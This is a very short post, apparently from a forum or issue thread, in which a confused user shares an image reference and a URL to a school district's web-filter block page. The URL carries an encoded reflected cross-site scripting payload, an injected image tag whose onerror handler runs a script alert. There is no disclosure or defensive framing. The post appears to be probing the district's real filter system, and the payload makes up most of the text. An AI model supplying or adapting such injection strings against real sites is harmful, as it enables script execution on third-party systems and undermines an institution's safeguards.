 Hopefully i can figure this out
I am so confused 😔
[https://ckf03.canyonsdistrict.org/cgi-bin/blockpage/blockpage.cgi?URL=%3C/span%3E%3CIMG%20SRC=/%20onerror=%22alert(String.fromCharCode(88,83,83))%22%3E%3C/img%3E&CAT=test&ACC=test&WHY=test&MOD=1
]
